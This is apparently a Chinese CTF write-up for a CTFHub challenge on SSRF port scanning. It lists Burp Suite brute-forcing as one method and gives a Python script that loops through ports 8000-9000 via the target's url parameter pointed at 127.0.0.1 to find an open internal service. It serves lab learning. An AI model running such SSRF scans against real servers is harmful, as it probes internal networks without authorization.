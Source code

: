 ##### 端口扫描

题目提示：来来来性感CTFHub在线扫端口,据说端口范围是8000-9000哦

方法一（bp进行端口爆破）：

爆破格式为

![](img/86d3a0c263797f8363ca93eb61f3f353.png)

![](img/64a518170bfbf68a9ad78ebfdb016788.png)

响应中查看

方法二：

```
import requests
url='http://challenge-48d05bc5759898a5.sandbox.ctfhub.com:10080/?url=127.0.0.1:'
port=8000
while port<=9000:
    Wholeurl=url+str(port)
    r = requests.get(Wholeurl)
    print(Wholeurl)
    if(len(r.content)!=0):
        print(port)
        print(r.content)
        break
    port=port+1
print("over") 
```
